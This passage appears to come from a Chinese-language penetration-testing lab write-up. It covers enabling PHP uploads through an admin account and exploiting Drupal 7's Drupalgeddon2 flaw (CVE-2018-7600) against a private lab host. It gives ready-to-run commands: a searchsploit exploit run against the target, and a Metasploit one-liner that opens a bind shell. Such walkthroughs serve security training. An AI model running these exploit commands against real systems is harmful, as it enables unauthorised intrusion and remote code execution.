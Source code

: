 [http://192.168.50.10/jabcd0cs](http://192.168.50.10/jabcd0cs)  
webmin 账户登录，具管理员权限，可以在 admin 模块新增允许上传文件类型 `text/x-php`。在设置页面可以找到文件上传路径`/uploads`。  
此时已经可以上传 php 文件，但发现所上传的文件后缀会转换为 dat 格式。如果想利用 shell 文件，还需要找到一个本地文件包含漏洞，但是没找到。

[![](assets/1704158282-96ac096c529d30045c82a3a97bcb9e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010532-4f45850c-a5a3-1.png)

## （3）Drupal RCE （CVE-2018-7600）

1、在渗透过程中，细心就可以留意到响应包中存在字段 `Drupal 7`，则可以尝试在公开漏洞库进行查找，以可以直接利用的漏洞为切入点，进行筛选。

[![](assets/1704158282-df05f093b7ffbd3ca42ad4c12b7568b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010630-71e2b986-a5a3-1.png)

2、这里尝试了 `Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution`[相关利用参考](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/)

```bash
searchsploit Drupal -m 44449
#报错则 sudo gem install highline 
./44449.rb http://192.168.50.10/jabc/
```

3、或者使用 msf 的 drupal\_drupalgeddon2 模块

```bash
msfconsole -q -x 'use exploit/unix/webapp/drupal_drupalgeddon2;set rhosts 192.168.50.10;set targeturi /jabc;set payload php/bind_perl;run'
```
